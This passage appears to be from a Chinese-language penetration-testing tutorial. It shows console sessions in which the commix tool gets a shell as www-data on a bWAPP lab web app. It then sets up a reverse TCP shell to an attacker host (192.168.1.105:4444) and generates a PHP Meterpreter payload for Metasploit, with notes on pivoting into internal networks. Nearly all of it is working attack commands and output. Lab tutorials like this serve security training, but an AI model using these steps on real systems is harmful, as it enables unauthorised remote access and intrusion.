 #### 询问是否想要一个shell 输入Y 的到shell

```
[?] Do you want a Pseudo-Terminal shell? [Y/n] > y

Pseudo-Terminal (type '?' for available options)
commix(os_shell) > 
```

#### 得到shell

```
commix(os_shell) > pwd

/owaspbwa/bwapp-git/bWAPP

commix(os_shell) > id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

commix(os_shell) > ls -ll 
```

#### 可以进行反弹shell 结合metasploit 进行内网渗透

```
commix(os_shell) > reverse_tcp  
commix(reverse_tcp) > set LHOST 192.168.1.105
LHOST => 192.168.1.105
commix(reverse_tcp) > set LPORT 4444
LPORT => 4444

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

commix(reverse_tcp) > 2 

---[ Unix-like reverse TCP shells ]---
Type '1' to use a PHP reverse TCP shell.
Type '2' to use a Perl reverse TCP shell.
Type '3' to use a Ruby reverse TCP shell. 
Type '4' to use a Python reverse TCP shell.
Type '5' to use a Socat reverse TCP shell.
Type '6' to use a Bash reverse TCP shell.
Type '7' to use a Ncat reverse TCP shell.

---[ Meterpreter reverse TCP shells ]---
Type '8' to use a PHP meterpreter reverse TCP shell.
Type '9' to use a Python meterpreter reverse TCP shell. 
Type '10' to use a Windows meterpreter reverse TCP shell. 
Type '11' to use the web delivery script. 

commix(reverse_tcp_other) > 8
[*] Generating the 'php/meterpreter/reverse_tcp' payload... [ SUCCEED ]
[*] Type "msfconsole -r /usr/share/commix/php_meterpreter.rc" (in a new window). #复制 启动msf
[*] Once the loading is done, press here any key to continue...  #按下确定建就可进行在msf接收到反弹的shell
[+] Everything is in place, cross your fingers and wait for a shell!
```
